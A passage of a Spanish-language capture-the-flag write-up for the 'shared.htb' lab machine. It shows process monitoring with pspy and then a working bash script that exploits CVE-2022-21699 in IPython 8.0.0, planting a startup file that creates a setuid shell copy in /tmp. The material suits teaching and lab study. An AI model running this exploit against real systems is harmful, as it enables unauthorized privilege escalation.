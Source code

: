 No obtenemos nada que destaque en la salida de LinPEAS. Intentemos ejecutar PSpy durante unos minutos.

```bash
# james_mason@shared.htb (SSH)
chmod +x pspy64
timeout 3m ./pspy64 | tee pspy.log
```

Mirando la salida, el UID 0 y el UID 1001 parecen estar ejecutando comandos rutinarios. El UID 0 es root y el ID de usuario 1001 resulta ser el usuario dan_smith, declarado en ``/etc/passwd{:.filepath}``. Se puede observar que dan_smith ejecuta un comando interesante cada minuto.

```bash
/bin/sh -c /usr/bin/pkill ipython; cd /opt/scripts_review/ && /usr/local/bin/ipython
```

El usuario entra en el directorio ``/opt/scripts_review{:.filepath}`` y ejecuta ``/usr/local/bin/ipython{:.filepath}``.

## CVE-2022-21699

Tras investigar un poco sobre ipython, nos encontramos con un aviso de vulnerabilidad que detalla un fallo de ejecución de código.

    > Nos gustaría revelar una vulnerabilidad de ejecución de código arbitrario en IPython que proviene de IPython ejecutando archivos no confiables en CWD. Esta vulnerabilidad permite a un usuario ejecutar código como otro.

Comprobemos si la versión de la máquina es vulnerable.

```bash
# james_mason@shared.htb (SSH)
/usr/local/bin/ipython --version
```

La versión es 8.0.0, que es vulnerable. Dado que el comando de rutina ejecutado por dan_smith se ejecuta en el directorio /opt/scripts_review{:.filepath}, podríamos explotar la vulnerabilidad si ``/opt/scripts_review{:.filepath}`` es escribible.

```bash
# james_mason@shared.htb (SSH)
ls -la /opt/scripts_review
```

Es escribible por aquellos en el grupo de desarrolladores. Según la salida del comando id, nuestro usuario actual forma parte de este grupo.

## Exploitation

Pongamos a prueba nuestra hipótesis siguiendo las instrucciones del aviso para ejecutar código como dan_smith.

```bash
#!/bin/bash

exploitdir="/opt/scripts_review"
cmd="cp /bin/sh /tmp/dan_smith_sh;chmod a+xs /tmp/dan_smith_sh"

mkdir -m 777 "$exploitdir/profile_default"
mkdir -m 777 "$exploitdir/profile_default/startup"
echo "__import__('os').popen('$cmd')" > "$exploitdir/profile_default/startup/x.py"
```
